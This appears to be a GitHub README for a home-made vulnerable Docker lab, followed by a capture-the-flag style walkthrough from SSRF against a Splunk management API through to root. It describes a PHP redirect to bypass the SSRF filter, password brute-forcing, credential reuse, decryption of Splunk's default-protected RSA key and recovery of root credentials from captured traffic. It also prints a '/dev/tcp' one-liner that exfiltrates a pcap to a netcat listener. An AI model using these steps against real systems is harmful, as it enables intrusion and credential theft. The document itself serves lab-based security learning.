









# Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I was always amazed by level of complexity and detail that goes into some of the machines so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. I decided to make a network of a couple docker containers where a user can go from external access to root

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network.

The web app is the SSRF app from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container but this user isn't on the box. From here we could try and bruteforce the `admin2` user, creating a wordlist from the password `changeme` using hashcat. The credentials `admin2:changeme2` work.

There's not much on the web app container, so we could try and pivot to the splunk container hoping for password reuse. We find we can `ssh` to the splunk container with the same credentials.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

Doing a light bruteforce against the `admin2` user on the web container, we find the weak and predictable password `changeme2`. We can simply `ssh` into the box now.

Let's immediately test for credential reuse. We can pivot into the Splunk container with `ssh`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients the server.

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`

Back on the box I let `tcpdump` run for a short while and sent the output to `output.pcap`. I can copy this file to the host by running `nc -nvlp 7777 >
output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.

Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.
